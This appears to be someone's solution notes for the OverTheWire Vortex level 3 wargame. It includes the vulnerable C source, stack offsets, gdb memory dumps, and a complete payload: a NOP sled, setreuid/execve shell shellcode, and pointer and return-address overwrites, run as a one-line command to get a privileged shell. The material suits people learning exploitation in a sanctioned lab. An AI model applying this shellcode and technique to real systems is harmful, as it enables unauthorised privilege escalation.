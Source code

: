 Challenge page is <a href="http://www.overthewire.org/wargames/vortex/vortex3.shtml">HERE</a>

<<CHALLENGE_CONTENT
Level 3

A Stack Overflow with a Difference
This level is pretty straight forward. Just sit down and understand what the code is doing. Your shellcode will require a setuid(LEVEL4_UID) since bash drops effective privileges. You could alternatively write a quick setuid(geteuid()) wrapper around bash.
NOTE: ctors/dtors might no longer be writable, although this level is compiled with -Wl,-z,norelro. Lookup some information about this e.g. here
NOTE: This level is solvable, but it is tricky. If all else fails, use an intelligent bruteforce and then circle back to find out why it worked.
Reading Material
Smashing the Stack for Fun and Profit
Bypassing StackGuard and StackShield

Code listing (vortex3.c)

	 1 /*
	 2  * 0xbadc0ded.org Challenge #02 (2003-07-08)
	 3  *
	 4  * Joel Eriksson <je@0xbadc0ded.org>
	 5  */
	 6 
	 7 
	 8 #include <string.h>
	 9 #include <stdlib.h>
	10 #include <stdio.h>
	11 
	12 unsigned long val = 31337;
	13 unsigned long *lp = &val;
	14 
	15 int main(int argc, char **argv)
	16 {
	17         unsigned long **lpp = &lp, *tmp;
	18         char buf[128];
	19 
	20         if (argc != 2)
	21                 exit(1);
	22 
	23         strcpy(buf, argv[1]);
	24 
	25         if (((unsigned long) lpp & 0xffff0000) != 0x08040000)
	26                 exit(2);
	27 
	28         tmp = *lpp;
	29         **lpp = (unsigned long) &buf;
	30         *lpp = tmp;
	31 
	32         exit(0);
	33 }

CHALLENGE_CONTENT

Comment by me:
	- try to read /etc/vortex_pass/vortex4
	- address is randomized
	- to overwrite 
		overwrite lpp: from 0x9c($esp) - 0x18($esp) = 132 + (4bytes to write)
		overwrite saved EIP: 136+12+(4bytes to write, which is new eip)
	- range to jump starts from $esp - $esp+0x9c+0x10 = 172 bytes
	- Shellcode with setreuid() from http://www.shell-storm.org/shellcode/files/shellcode-399.php (34bytes)
		"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
		"\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
	- NOP is 0x90
	- Structure:
		NOP(98): "\x90" *98
		SHELL(34): "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
		LLP(4): 0x0804963c ---> "\x3c\x96\x04\x08"
		NOP(12): "\x90" * 12
		EIP(4): 0xffffd74c - 60 = 0xffffd710 --> "\x10\xd7\xff\xff"
	- run : 
		/vortex/vortex3 $(python -c 'print "\x90"*98+"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"+"\x3c\x96\x04\x08"+"\x90"*12+"\x10\xd7\xff\xff"')
	- DEBUGGING:

		0x8049638 <val>:	0x00007a69
		0x804963c <lp>:		0x08049638
		0xffffd748 ($ebp):	0xffffd7d8	
		0xffffd74c ($ebp+4)/($esp+4): 0xf7e89e37 <<< saved old EIP, back to shell
		0xffffd750 0x8(%ebp) <argc>:	0x00000002
		0xffffd764 0xc(%ebp) <argv>:	0xffffd7f4 
			0xffffd7f4 =>
				0xffffd91c <argv[0]>:	"/vortex/vortex3"
				0xffffd92c <argv[1]>:	"aaaaaaaa"
		0xffffd6a0: ($esp): 
		0xffffd6b8: 0x18($esp) <buf>: 0x61616161		<<< values
		0xffffd6bc:
		0xffffd738:	0x98($esp) <tmp>: 0x0804847b		<<< tmp
		0xffffd73c:	0x9c($esp) <lpp>: 0x0804963c		<<< llp
		0xffffd74c:	0xac($esp) <saved eip>

		0x08048410 <+60>:	call   0x80482f4 <strcpy@plt>
	


